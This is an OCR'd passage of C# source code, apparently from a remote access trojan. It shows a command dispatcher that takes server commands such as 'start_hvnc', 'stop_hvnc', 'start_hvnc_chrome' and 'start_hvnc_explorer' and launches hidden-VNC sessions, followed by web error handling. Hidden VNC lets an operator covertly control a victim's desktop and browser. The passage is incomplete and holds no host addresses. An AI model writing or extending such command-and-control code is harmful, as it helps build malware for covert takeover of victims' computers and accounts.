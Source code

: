                     {

                        await HVNC.StartHVNC(responseObject.command.ToString());

                    }



                    if (responseObject.command != null && responseObject.command == "stop_hvnc")

                    {

                        await HVNC.StopHVNC(responseObject.command.ToString());

                    }



                    if (responseObject.command != null && responseObject.command == "start_hvnc_chrome")

                    {

                        await ChromeComands.StartChrome(responseObject.command.ToString());

                    }



                    if (responseObject.command != null && responseObject.command == "start_hvnc_explorer")

                    {

                        await ExplorerCommands.StartExplorer(responseObject.command.ToString());

                    }

                }

            }

        }

        catch (WebException e)

        {

           

            if (e.Response is HttpWebResponse response)

            {

                using (StreamReader reader = new StreamReader(response.GetResponseStream()))

                {

                    string errorText = reader.ReadToEnd();

                    Console.WriteLine($"Error: {errorText}");

                }

            }

            else

            {
